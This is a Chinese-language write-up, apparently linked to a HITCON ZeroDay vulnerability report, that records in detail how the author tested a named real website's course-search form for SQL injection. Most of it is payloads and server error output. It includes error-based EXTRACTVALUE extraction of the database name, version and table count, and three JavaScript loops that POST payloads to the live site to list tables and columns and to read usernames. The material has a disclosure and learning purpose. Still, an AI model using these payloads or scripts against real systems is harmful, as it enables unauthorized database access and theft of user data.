



本文是 https://zeroday.hitcon.org/vulnerability/ZD-2025-00978 的詳細測試過程

## 測試過程

1. `'`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near '%'))
GROUP BY a.course_id OR' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

2. `%'') OR 1=1-- 123`，SQL 成功執行，但畫面上無資料

3. `%'') AND '1'='1`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near
'1'='1%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

4. `%'') OR 1=1)-- 123`，SQL 成功執行，但畫面上無資料

5. `%'') OR 1=1 AND 'x'='y))-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near
'x'='y))-- 123%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

6. `%'') OR 1='1))-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near '1))--
123%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

7. `%'') UNION SELECT 'test','test','test'/*`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near
'test','test','test'/*%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

8. `%') UNION SELECT 'test','test','test'-- x`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near 'UNION
SELECT 'test','test','test'-- x%')) GROUP BY a.c' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

9. `%') UNION SELECT 'test','test','test';-- x`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near 'UNION
SELECT 'test','test','test';-- x%')) GROUP BY a.' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

10. `',(SELECT database()),'`

```html
Fatal error: Uncaught PDOException: SQLSTATE[21000]: Cardinality violation: 1241
Operand should contain 1 column(s) in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

11. `') AND SLEEP(5) AND ('1'='1`，SQL 成功執行，但畫面上無資料，且沒有延遲 5 秒

12. 成功查到資料，但沒延遲 5 秒

```
') OR SLEEP(5) AND ('1'='1
') OR (SLEEP(5)) OR ('1'='1
') OR (SELECT SLEEP(5)) OR ('1'='1
```

13. `') AND EXTRACTVALUE(1,CONCAT(0x7e,database(),0x7e)) AND ('1'='1`，成功利用 error message 提取到 database 名稱是 `lsdesign_gogocare`

```html
Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1105 XPATH
syntax error: '~lsdesign_gogocare~' in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

14. `') AND EXTRACTVALUE(1,CONCAT(0x7e,version(),0x7e)) AND ('1'='1`，成功提取 MYSQL 版本號 = `8.0.43`

15. `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='lsdesign_gogocare' LIMIT 0,1),0x7e)) OR ('1'='1`，成功提取 table 數量 = 111

16. 列出所有 table_name（寫一段 JavaScript 迴圈直接戳 API）：

```js
const table_names = [];
for (let i = 0; i < 111; i++) {
  const sp = new URLSearchParams();
  sp.append(
    "srh_key_word",
    `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='lsdesign_gogocare' LIMIT ${i},1),0x7e)) OR ('1'='1`,
  );
  sp.append("srh_sort", "");
  fetch("https://beta-gocare.ls-design.com.tw/tw/course/search.html", {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: sp.toString(),
    method: "POST",
    mode: "cors",
    credentials: "omit",
  })
    .then((r) => r.text())
    .then((text) => {
      const table_name = text.split(`XPATH syntax error: '~`)[1].split(`~'`)[0];
      table_names.push(table_name);
    });
}
```



17. `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='usr' LIMIT 0,1),0x7e)) OR ('1'='1`，成功提取 `usr` table 的 column 數量 = 22

18. 列出 `usr` table 所有 column_name（寫一段 JavaScript 迴圈直接戳 API）：

```js
const usr_column_names = [];
for (let i = 0; i < 22; i++) {
  const sp = new URLSearchParams();
  sp.append(
    "srh_key_word",
    `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='usr' LIMIT ${i},1),0x7e)) OR ('1'='1`,
  );
  sp.append("srh_sort", "");
  fetch("https://beta-gocare.ls-design.com.tw/tw/course/search.html", {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: sp.toString(),
    method: "POST",
    mode: "cors",
    credentials: "omit",
  })
    .then((r) => r.text())
    .then((text) => {
      const result = text.split(`XPATH syntax error: '~`)[1].split(`~'`)[0];
      usr_column_names.push(result);
    });
}
```



19. 簡單撈個 3 筆 usr table 的 usr_name 就好，測試有權限可以讀取任意 table 的資料

```js
const usr_names = [];
for (let i = 0; i < 3; i++) {
  const sp = new URLSearchParams();
  sp.append(
    "srh_key_word",
    `') OR EXTRACTVALUE(1,CONCAT(0x7e,(SELECT usr_name FROM usr LIMIT ${i},1),0x7e)) OR ('1'='1`,
  );
  sp.append("srh_sort", "");
  fetch("https://beta-gocare.ls-design.com.tw/tw/course/search.html", {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: sp.toString(),
    method: "POST",
    mode: "cors",
    credentials: "omit",
  })
    .then((r) => r.text())
    .then((text) => {
      const result = text.split(`XPATH syntax error: '~`)[1].split(`~'`)[0];
      usr_names.push(result);
    });
}
```



## 學到的東西

1. 利用 error-based SQLi，從 error message 提取資料，成功用上 [Lab: Visible error-based SQL injection](../port-swigger/sql-injection.md#lab-visible-error-based-sql-injection) 的概念

2. 測試過程很重要，尤其是初學者，建議把測試過程都記錄下來，方便之後回來複習。畢竟真實世界的 SQLi 不是每天都找的到，這比 Lab 環境真實多了，可以學到很多東西

3. 有時候不要一直想著用 `UNION SELECT` 來提取資料，像這個情況，我們一直卡在似乎無法跳出 `%'))`，但還是可以透過 error message 來提取到資料

4. [CONCAT()](https://www.w3schools.com/sql/func_mysql_concat.asp)

5. [ExtractValue()](https://dev.mysql.com/doc/refman/8.4/en/xml-functions.html#function_extractvalue)

## 檢討

1. 我對 SQL 語法還是不夠熟悉，即便有 error message，還是需要 AI 指引我方向，才能挖掘到 PoC。但換個角度想，我再怎麼樣，腦袋能裝的知識都比不過 AI，所以透過跟 AI 問答的方式學習 SQLi，甚至是說學習資安，其實也是一個不錯的方法（？

2. 在進行 SQLi 測試時，我會一直想推敲出原始的 SQL 語法，不然我會無法思考該怎麼注入，但也許可以著重在測試結果就好（？不要刻意去糾結原始的 SQL 語法，只要能夠成功提取到資料就好（？

## 再次嘗試

1. `'%))-- 123`，成功查到資料

2. `'%)) UNION SELECT 1-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near '%))
UNION SELECT 1-- 123%')) GROUP BY a.course_id ' at line 9 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

3. `%')) UNION SELECT 1-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42S02]: Base table or view not
found: 1109 Unknown table 'a' in group statement in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

4. `%')) ORDER BY 1-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access
violation: 1064 You have an error in your SQL syntax; check the manual that
corresponds to your MySQL server version for the right syntax to use near 'GROUP
BY a.course_id ORDER BY course_psdate DESC' at line 10 in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```

5. `%')) UNION SELECT 1,2,3,4,5 FROM information_schema.tables a-- 123`

```html
Fatal error: Uncaught PDOException: SQLSTATE[42S22]: Column not found: 1054
Unknown column 'a.course_id' in 'group statement' in
/home2/lsdesign/public_html/includes/cls_mysql.php:65 Stack trace: #0
/home2/lsdesign/public_html/includes/cls_mysql.php(65): PDO->query('SELECT a.*
FROM...') #1 /home2/lsdesign/public_html/course/index.php(268):
DB->Execute('SELECT a.* FROM...') #2
/home2/lsdesign/public_html/course/index.php(17): show_search(Array) #3 {main}
thrown in /home2/lsdesign/public_html/includes/cls_mysql.php on line 65
```
